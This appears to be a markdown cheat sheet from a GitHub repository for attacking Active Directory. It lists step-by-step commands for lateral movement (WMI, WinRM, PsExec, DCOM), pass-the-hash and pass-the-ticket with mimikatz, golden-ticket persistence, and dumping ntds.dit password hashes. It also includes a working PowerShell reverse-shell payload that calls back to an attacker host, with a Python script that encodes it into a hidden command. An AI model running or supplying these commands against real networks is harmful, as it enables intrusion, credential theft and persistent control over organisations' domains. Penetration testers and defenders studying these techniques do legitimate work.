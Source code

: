 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "powershell -nop -w hidden -e longbase64encodedstring"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)

WinRS documentation: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/winrs
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Same requisites as PsExec: an `ADMIN$` share available and `File and Printer sharing` enabled. And an SMB connection (usually port 445). \
Works with servers and services using NTLM authentication, but NOT with Kerberos authentication. \
Works for Active Directory domain accounts and the built-in local administrator account. Doesn't work for local admins.\
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad, to cache this targeted user credentials. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

If the targeted user has access rights on other servers, the hash could allow to connect.

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host1 and has access to resources on host2 \
Goal:
- steal user2's Ticket Granting Service (TGS) in memory and inject it in user1's session.
- then connect as user1 on host2 using user2's ticket or access the resources on host2

```
PS > whoami # user1
PS > net view \\host2 /all # list all the shares on the remote host2
PS > ls \\host2\someshare # access denied to a particular share 'someshare'
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt name_of_the_kirbi_file_with_user2_tickets.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

In an elevated PowerShell:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","$targetIpAddress")) # the IP address is the only parameter to modify
```
Usage to open a `calc` on the remote computer (with local admin rights on the remode):
```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc", "7") # parameters are Command, Directory, Parameters, and WindowState
```
Usage to launch a reverse PowerShell on the remote computer (local admin):
```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e base64longreverseshellstring", "7")
```
Reference: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand

## Persistence

### Golden ticket

Kerberos service account: `krbtgt`
Mimikatz on GitHub:
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
- https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos

Takes a Domain Admin account on the Domain Controller, or have compromised the Domain Controller:
```
SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access denied

DomainController c:\path\to\mimikatz > .\mimikatz.exe # on the Domain Controller, with a Domain Admin account
DC mimikatz # privilege::debug
DC mimikatz # lsadump::lsa /patch # search for the krbtgt service NTLM hash, and get the domain SID: S-1-5-21-x-y-z

SomeWorkstation c:\path\to\mimikatz > mimikatz.exe # on a workstation, with a random user account
SomeWorkstation mimikatz # kerberos::purge
SomeWorkstation mimikatz # kerberos::golden /user:targetrandomuser /domain:somedomainname.com /sid:S-1-5-21-x-y-z /krbtgt:NtlmHash /ptt
SomeWorkstation mimikatz # misc::cmd

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainController cmd.exe # access granted on the Domain Controller
DomainController c:\any\path > ipconfig
c:\any\path > whoami # targetrandomuser
c:\any\path > whoami /groups # expected "somedomainname\Domain Admins"

SomeWorkstation c:\path\to\sysinternalsuite > .\PsExec64.exe \\TargetDomainControllerIpAddress cmd.exe # access denied, the IP address triggers an NTLM authentication
```

Reference: https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don%27t-Get-It.pdf

### Shawdow copies

Connect as a Domain Admin on the Domain Controller.
Impacke-SecretDump on GitHub: https://github.com/fortra/impacket/blob/master/examples/secretsdump.py
```
c:\path\to\vshadow > .\vshadow.exe -nw -p c: # take note of the "Shadow copy device name"
> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\windows\ntds\ntds.dit c:\ntds.dit.bak
> reg.exe save hklm\system c:\system.bak

kali $ impacket-secretdump -ntds ntds.dit.bak -system system.bak LOCAL
```
Hashes can be cracked or used for PtH attacks.
